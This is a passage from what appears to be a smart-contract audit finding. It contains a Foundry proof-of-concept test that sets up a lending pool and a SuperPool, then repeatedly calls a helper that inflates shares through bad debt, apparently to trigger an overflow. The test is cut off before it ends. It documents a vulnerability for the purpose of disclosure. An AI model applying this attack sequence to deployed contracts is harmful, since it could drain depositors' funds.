 Please run the PoC in **BigTest.t.sol**:
```solidity
    function testAudit_Overflows() public {
        // Pool Asset
        MockERC20 poolAsset = new MockERC20("Pool Asset", "PA", 18);
        // Collateral Asset
        MockERC20 collateralAsset = new MockERC20("Collateral Asset", "CA", 18);

        vm.startPrank(protocolOwner);
        positionManager.toggleKnownAsset(address(poolAsset));
        positionManager.toggleKnownAsset(address(collateralAsset));
        riskEngine.setOracle(address(poolAsset), address(new FixedPriceOracle(1e18)));
        riskEngine.setOracle(address(collateralAsset), address(new FixedPriceOracle(1e18)));
        vm.stopPrank();

        // Create Underlying Pool
        address poolOwner = makeAddr("PoolOwner");

        vm.startPrank(poolOwner);
        bytes32 FIXED_RATE_MODEL_KEY = 0xeba2c14de8b8ca05a15d7673453a0a3b315f122f56770b8bb643dc4bfbcf326b;
        uint256 poolId = pool.initializePool(poolOwner, address(poolAsset), type(uint128).max, FIXED_RATE_MODEL_KEY);
        riskEngine.requestLtvUpdate(poolId, address(collateralAsset), 0.8e18);
        riskEngine.acceptLtvUpdate(poolId, address(collateralAsset));
        vm.stopPrank();

        // Create Super Pool
        address superPoolOwner = makeAddr("SuperPoolOwner");
        poolAsset.mint(superPoolOwner, 1000);

        vm.startPrank(superPoolOwner);
        poolAsset.approve(address(superPoolFactory), 1000);
        address superPoolAddress = superPoolFactory.deploySuperPool(
            superPoolOwner, // owner
            address(poolAsset), // asset
            superPoolOwner, // feeRecipient
            0, // fee
            10000e18, // superPoolCap
            1000, // initialDepositAmt
            "SuperPool", // name
            "SP" // symbol
        );
        vm.stopPrank();

        SuperPool superPool = SuperPool(superPoolAddress);

        // add pool
        vm.prank(superPoolOwner);
        superPool.addPool(poolId, 1000e18);

        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        (address payable position, Action memory newPos) = newPosition(bob, "Borrower");
        positionManager.process(position, newPos);

        for (uint i; i < 3; ++i) {
            inflatedSharesByBadDebt(alice, bob, position, poolId, superPool, poolAsset, collateralAsset);
        }

        inflatedSharesByBadDebt(alice, bob, position, poolId, superPool, poolAsset, collateralAsset);
```